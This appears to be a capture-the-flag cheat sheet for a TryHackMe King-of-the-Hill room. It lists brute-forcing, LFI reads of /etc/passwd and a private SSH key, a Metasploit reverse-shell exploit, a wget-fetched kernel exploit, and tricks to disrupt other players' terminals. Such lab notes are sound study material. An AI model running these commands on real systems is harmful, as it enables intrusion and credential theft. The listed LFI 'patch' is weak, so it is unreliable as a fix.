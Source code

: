 
Prepare
- mkdir ~/Prohacks/THM/Room
- cd ~/Prohacks/THM/Room
- sudo set.target.ip x.x.x.x
- nmap.target.ip
"""----------------------------------------------------------------------------------------------------------------------"""
Attacking
- Recon
- Port
    - 80
    - 1337
    - 3306
    - 5555
    - 8080
    - 9999
    - 24964
- Scan
    - 80/tcp    open  http       syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
        - /upload
        - Insecure File Upload "Perl shell"
    - 1337/tcp  open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    - 3306/tcp  open  mysql      syn-ack ttl 61 MySQL 5.7.19-0ubuntu0.16.04.1
        - hydra -l root -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> mysql
    - 5555/tcp  open  http       syn-ack ttl 61 nginx 1.10.3 (Ubuntu)
        - The page variable is the one defining on which page we are /?page=posts.php
            - http://MACHINE_IP:5555/?page=../../../etc/passwd
        - Since this is “Gloria’s blog”, we can expect there is a user named gloria in the machine 
            - http://MACHINE_IP:5555/?page=../../../home/gloria/.ssh/id_rsa
            - save it to id_rsa
            - chmod 400 id_rsa
    - 8080/tcp  open  http       syn-ack ttl 61 nostromo 1.9.6
        - This version is outdated and has a Remote Code Execution vulnerability. 
            - searchsploit (searchsploit nostromo 1.9.6)
    - 9999/tcp  open  abyss?     syn-ack ttl 61
    - 24964/tcp open  tcpwrapped syn-ack ttl 61
- Shell
    - ssh
        - ssh2john id_rsa > john
        - extract passphrase
            - john -w=/usr/share/wordlists/rockyou.txt john
        - ssh -i id_rsa -t gloria@MACHINE_IP -p 1337
    - msfconsole
        - use exploit/multi/http/nostromo_code_exec
        - set rport 8080
        - set rhost <MACHINE_IP>
        - check
        - set payload linux/x86/meterpreter/reverse_tcp
        - set lhost tun0
        - run
    - reverse shell
        - Upload "Perl shell" /upload
- Root   
    - Privilege Escalation
        - looking for root permissions
            - find / -type f \( -perm -4000 -o -perm -2000 \) -print 2>/dev/null
        - linpeas.sh
            - /usr/bin/tmux -S /.dev/session
        - kernel exploit (CVE-2017-16995)
            - wget https://raw.githubusercontent.com/gugronnier/CVE-2017-16995/master/exploit-poc-pentest.c
            - gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
            - Send it to the machine
            - chmod +x ./exploit-poc-pentest
            - ./exploit-poc-pentest
    - Become King
        - whoami
        - echo "USERNAME" > /root/king.txt
            - permission denied
                - chattr -ia /root/king.txt
            - chattr removed
                - https://busybox.net/downloads/binaries/1.31.0-i686-uclibc/
    - Flags
        - /home/gloria/user.txt 	 
        - /home/marty/user.txt 	Reversed
        - /home/alex/user.txt 	Rot13
        - /root/.flag 	 
        - /opt/code/server.py 	 
        - MySQL: db-> blog, table-> users, id-> 140
Defending
- King
    - chattr +ia /root/king.txt
    - Remove chattr
        - which chattr # Get chattr's path, default: /usr/bin/chattr
        - rm usr/bin/chattr # Or another path if different
    - clobber
        - set -o noclobber
        - add this to bashrc of root and source it
- Patching
    - Nostromo RCE Patch, port 8080
        - update it
        - putting Nostromo down and running a Python http.server
            - /var/nostromo/htdocs
            - ps aux | grep nhttpd
            - kill -9 <PID>
            - cd /var/nostromo/htdocs
            - python3 -m http.server -b <MACHINE_IP> 8080
    - LFI Patch, port 5555 
        - removing every ../ from the page variable
            - <?php include($_GET["page"]); ?> To <?php include(str_replace("../","",$_GET["page"])); ?>
    - Insecure File Upload Patch
        - quickest patch we can issue is to remove or comment line. exec("/usr/bin/perl " . $target_file);
    - OS
        - sudo
            - fixing the vulnerability in /etc/sudoers
                - remove everything from /etc/sudoers except root ALL=(ALL=ALL) ALL
        - changing ssh keys, changing passwords, look for the processes running or give cronjobs a look
        - Make copies of SUID binaries, even though they are easy to find, but can sometimes save get you a root shell from www-data.
        - SSH AuthKey
            - put your ssh keys on to the user/root authorized_keys
            - rename the public key to : authorized_keys     
- Backdoors
- Aggressive Defense
    - Get your pts number
        - /dev/pts/x
        - w
        - who
        - tty
        - echo $$
        - ps aux | grep pts
    - Find every other pts
        - ps aux | grep pts
    - Kick other players’ shells
        - kill -9 <PID>
        - pkill -9 -t pts/<OTHER_PTS_ID>
    - Breaking other players’ pts
        - echo "Hello 1337" > /dev/pts/<OTHER_PTS_ID>
        - cat /dev/urandom > /dev/pts/<OTHER_PTS_ID>
        - nyancat > /dev/pts/<OTHER_PTS_ID>
            - git clone https://github.com/klange/nyancat
            - cd nyancat/src
            - make
            - Sending Nyancat to machine
        - tetris
    - Break into the shell of other logged in users
        - script -f /dev/pts/<OTHER_PTS_ID>


https://blog.noxtal.com/writeups/2020/07/11/tryhackme-koth-lion/
https://blog.noxtal.com/cheatsheets/2020/08/08/ultimate-koth-defense-guide/
https://github.com/calebstewart/pwncat
https://gtfobins.github.io/
